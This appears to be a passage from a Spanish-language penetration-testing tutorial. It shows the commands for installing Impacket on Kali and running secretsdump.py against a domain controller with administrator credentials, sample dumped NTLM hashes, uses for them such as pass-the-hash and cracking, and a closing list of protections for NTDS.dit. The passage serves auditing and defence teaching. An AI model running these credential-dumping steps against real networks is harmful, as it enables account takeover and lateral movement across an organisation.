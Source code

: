 
#### 🔧 Paso 1: Instalar Impacket en Kali

```bash
sudo apt update
sudo apt install impacket-scripts -y
```

Verifica:

```bash
secretsdump.py -h
```

---

#### 🔧 Paso 2: Ejecutar secretsdump remotamente

Supongamos que:

- IP del DC: `192.168.1.100`
- Usuario admin: `Administrador`
- Contraseña: `P@ssw0rd123`
- Dominio: `empresa.local`

```bash
secretsdump.py empresa.local/Administrador:'P@ssw0rd123'@192.168.1.100
```

📌 Resultado típico:

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash::)
empresa.local\Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
empresa.local\juan:1001:aad3b435b51404eeaad3b435b51404ee:8d969eef6ecad3c29a3a629280e686cf:::
```

Ahora tienes los **hashes NTLM** de todos los usuarios del dominio.

---

### 🧠 ¿Y qué hago con los hashes?

- Pueden usarse para **ataques Pass-the-Hash**
- Se pueden crackear con **Hashcat** u **John the Ripper**
- Se usan para simular ataques de post-explotación y auditoría de contraseñas débiles

---

### 🛡️ ¿Cómo proteger el NTDS.dit?

- Activar **Credential Guard** y **LSASS Protection**
- Evitar el uso de cuentas con privilegios elevados innecesarios
- Supervisar y auditar comandos como `secretsdump.py` y `vssadmin`
- Aplicar el principio de **mínimos privilegios**
- Deshabilitar VSS si no se necesita
- Activar BitLocker en discos del DC

---